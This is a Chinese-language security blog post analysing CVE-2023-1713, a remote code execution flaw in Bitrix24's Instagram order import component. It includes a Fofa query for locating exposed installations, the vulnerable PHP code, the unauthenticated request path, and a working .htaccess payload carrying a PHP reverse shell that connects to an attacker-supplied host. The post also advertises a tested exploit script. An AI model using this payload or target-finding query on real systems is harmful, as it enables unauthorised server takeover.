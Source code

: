 #  CVE-2023-1713 Bitrix24远程命令执行漏洞分析(RCE)   
Mstir  实战安全研究   2024-08-12 19:07  
  
## 0x00 前言  
  
   ******Bitrix24是一个在线协作、销售和营销套件，拥有超过35种业务工具，包括世界上最强大的CRM。Bitrix24简化了其面临着的任何流程—从线索获取和转换到准备账单和发票，一般是俄语体系网站最适用的网站管理系统，有超过1500万家企业，学校，政府使用了该系统。**  
  
**Fofa:app="Bitrix24-Site-Manager"**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eJoazoNEXFjoLialR6lqug6hKiaibbqs6U0BGsKT89p1P1NmF99XoJBiaFXNnopf8s7bWDc3wUpxptUw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJoazoNEXFjoLialR6lqug655IAB3xSEChT404BH5edJfwpXibNaU1tpqX16f59DWaQozia1dicshAVA/640?wx_fmt=jpeg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eJoazoNEXFjoLialR6lqug66QpNTeiajHib3e7lMJwkgVVficNODUicabWK52WoDuZtERTEAUqCGVepHA/640?wx_fmt=jpeg "")  
## 0x01 影响范围  
  
**网站版本 <= Bitrix24 22.0.300**  
## 0x02 漏洞分析  
  
**在****bitrix/components/bitrix/crm.order.import.instagram.view/class.php 中****的 crm.order.import.instagram.view 组件的 importAjax 操作会下载攻击者控制的文件，并将其保存为上传目录中的临时文件。由于攻击者对文件名具有完全控制权，因此他们可以覆盖重要的配置文件，例如 .htaccess，从而实现远程代码执行。**  
  
**当向 https://TARGET_HOST/bitrix/services/main/ajax.php？mode=class&c=bitrix%3Acrm.order.import.instagram.view&action=importAjax 发出 POST 请求时，将调用 importAjaxAction 函数。此函数最终会调用 Instagram：：saveImage（位于 bitrix/modules/crm/lib/order/import/instagram.php 行 476 至 514），其中出现漏洞：**  
```
// bitrix/modules/crm/lib/order/import/instagram.php

protected static function saveImage($url){
    $fileId = false;

    $httpClient = new HttpClient();
    $httpClient->setTimeout(5);
    $httpClient->setStreamTimeout(5);

    $urlComponents = parse_url($url);

    if ($urlComponents && $urlComponents['path'] <> ''){
        $tempPath = \CFile::GetTempName(
            '', bx_basename($urlComponents['path']) // [1]
        );
    }else{
        $tempPath = \CFile::GetTempName('', bx_basename($url));
    }

    $httpClient->download($url, $tempPath); // [2]

    // Move temporary file to permanent location
}
```  
  
**服务器使用 CFile：：GetTempName 函数生成存储下载文件的路径。此函数的第二个参数 $file_name 是通过 bx_basename 函数派生自攻击者提供的 URL，该函数返回路径的尾随名称部分。例如，如果攻击者控制的$url为 https://attacker.com/example.txt，则将example.txt $file_name 参数。CFile：：GetTempName 在对 $file_name 参数进行次要处理后调用 CTempFile：：GetFileName。CTempFile：：GetFileName 生成格式为**  
  
**$BITRIX_ROOT/upload/tmp/xxx/$file_name，其中 xxx 是由小写字母和数字组成的字符串，因此有 $36^3 = 46656$ 可能的路径，这需要大量时间来暴力破解:**  
```
// bitrix/modules/crm/lib/order/import/instagram.php

$httpClient = new HttpClient();
$httpClient->setTimeout(5);
$httpClient->setStreamTimeout(5);
```  
  
**并且不需要任何权限都可以直接上传文件，需要注意的是服务器环境必须得是Apache，若是Nginx需要别的Payload.**  
  
**.htaccess file:**  
```
<Files ~ "^\.ht">
    Require all granted
    Order allow,deny
    Allow from all
    SetHandler application/x-httpd-php
</Files>


# <?php /* Sleep to allow nc listener to start */sleep(2);$sock=fsockopen($_GET["ip"],intval($_GET["port"]));$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>
```  
  
**此文件必须与 Python3 漏洞利用代码位于同一目录中。当运行漏洞利用代码时，它将在 LPORT1 上生成一个 HTTP 服务器，为 .htaccess 文件提供HTTP服务，并在 LPORT2 上启动一个 netcat 监听器以进行反向 shell. (漏洞利用脚本已测可用)**  
  
****![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5eJoazoNEXFjoLialR6lqug60fYHJghZiay7aVOiaItubWKyl9CaHdXyTsXBQicdBFrwN844IarCgxGlw/640?wx_fmt=png&from=appmsg "")  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转，RCE**  
  
**漏洞利用脚本关注公众号发送 bitrix 获取**  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
